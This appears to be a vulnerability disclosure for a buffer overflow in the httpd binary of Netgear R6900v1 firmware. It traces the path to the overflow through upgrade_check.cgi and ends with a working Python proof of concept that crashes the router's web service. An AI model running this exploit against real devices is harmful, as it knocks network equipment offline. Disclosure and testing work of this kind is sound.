 # Netgear R6900v1 router Denial of service vulnerability

## Basic information

Supplier: Netgear
Product: R6900v1
Firmware version: R6900-V1.0.1.26_1.0.20

## Vulnerability description

A buffer overflow vulnerability exists in the binaries of the R6300v1 firmware version. The vulnerability is located in the sub_18334 function in the /usr/sbin/httpd file (R6900-V1.0.1.26_1.0.20 version), memcpy(s, src, v2) Copying contiguous v2 bytes of data from src to a memory area starting with s causes the target memory area (s) to not be large enough to hold the data from the source memory area (src), because the value of v2 reads four contiguous bytes from the memory pointed to by the src pointer. Combine them in a specific byte order (based on the index value) into a 32-bit integer that may be larger than the memory length of the variable s, resulting in a buffer overflow, as shown in the figure below.

Previously, it was necessary to bypass the judgment of strcmp((const char)src, "#$^"), src had to be *#$^, which could be followed by the 0x00 character to cause truncation.

![image-20241125180023503](Netgear R6900.assets/image-20241125180023503.png)

After IDA's use, sub_12CC8 calls sub_18334, where the variable v77 is passed real, it can be seen that the variable s1 needs to meet the 'name="mtenFWUpload"\r\n\r\n' string, the string data as sub_18334.

At the same time, if you want to execute this, the variable v117 must be 1, otherwise jump, but the value of v117 is assigned to 0 in line 713, as shown below.

![image-20241125180052319](Netgear R6900.assets/image-20241125180052319.png)

As can be seen in the following process, the http request must have a while ring returned by the upgrade_check.cgi character.

![image-20241125180109532](Netgear R6900.assets/image-20241125180109532.png)

However, in order to reach this place, certain conditions must be met, that is, to reach LABEL272, as show in the figure below.

![image-20241125180125997](Netgear R6900.assets/image-20241125180125997.png)

## Vulnerability verification

Normal access to the router web side:

![image-20241125180221302](Netgear R6900.assets/image-20241125180221302.png)

A vulnerability exists on the upgrade_check.cgi page

![image-20241125180235814](Netgear R6900.assets/image-20241125180235814.png)

If the upgrade_check.cgi page is accessed normally, the system automatically switches to the normal web terminal

![image-20241125180247692](Netgear R6900.assets/image-20241125180247692.png)

### poc

Write POC for testing

```
import requests

data1 = "*#$^"
data1 += "\x00\xFF\xFF\xFF"
data1 = data1.ljust(0xFFFF, 'A')


payload = ''
payload += 'POST /upgrade_check.cgi HTTP/1.1\r\n'
payload += 'Host: 192.168.1.1\r\n'
payload += 'Content-Disposition: AAAA\r\n'
payload += 'Content-Length: {}\r\n'.format(len(data1) + 1)
payload += 'Content-Type: application/octet-stream\r\n'
payload += 'name="mtenFWUpload"\r\n'
payload += '\r\n'
payload += data1

print(payload)

headers = {'Content-Length': str(len(payload))}

url = 'http://192.168.1.1:80/upgrade_check.cgi'
response = requests.post(url, headers=headers, data=payload)

print(response.text)
```

In order to verify the existence of the vulnerability, the test is performed using real devices, as shown below, and the service can be successfully started

![image-20240530153012560](Netgear R6900.assets/image-20240530153012560.png)

Run the poc script, refresh the page, find that the service crashes, and the vulnerability verification succeeds.

![image-20240530153046472](Netgear R6900.assets/image-20240530153046472.png)